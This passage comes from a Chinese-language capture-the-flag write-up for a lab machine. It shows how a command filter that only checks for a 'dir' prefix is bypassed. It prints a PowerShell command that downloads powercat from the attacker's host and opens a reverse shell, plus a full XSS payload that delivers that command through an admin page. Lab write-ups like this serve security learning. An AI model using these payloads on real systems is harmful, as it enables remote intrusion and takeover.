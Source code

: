 ```php
            } else{
                echo "It's only allowed to access this function from localhost (::1).<br..."
            }
    }
}else{
  echo "...."
}
?>
```



也就是说只要是管理员，并且命令的前3个字母为dir就行。。。

所以允许命令应该为 dirxxxx || ipconfig

验证阶段略过。

构建让我们可以获得shell的命令，应该是如下的命令

```powershell
dirxxx || powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.25:8080/powercat.ps1');powercat -c 10.10.14.25 -p 4444 -e cmd"
```

而将命令转为xss则应该为

```javascript
<script>var xhr;if (window.XMLHttpRequest){xhr=new XMLHttpRequest()}else{xhr=new ActiveXObject("Microsoft.XMLHTTP")};xhr.open("POST","/admin/backdoorchecker.php");xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');xhr.send("cmd=dirxxx || powershell -c \"IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.25:8080/powercat.ps1');powercat -c 10.10.14.25 -p 4444 -e cmd\"");</script>
```

回到最开始transfer.php页面重新抓包改包，kali本地开http服务，建立监听端口

极度漫长的等待后，管理员在我们的python http服务下载了powercat

![image-20200927141850489]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927141850489.png)

我们在kali监听端口获得了shell

![image-20200927142018778]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927142018778.png)

这台机器，真的卡是获得user

![image-20200927142154231]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927142154231.png)

![image-20200927142227144]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927142227144.png)



简单枚举看到910端口运行 PID1628

![image-20200927142334545]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927142334545.png)


tasklist /svc
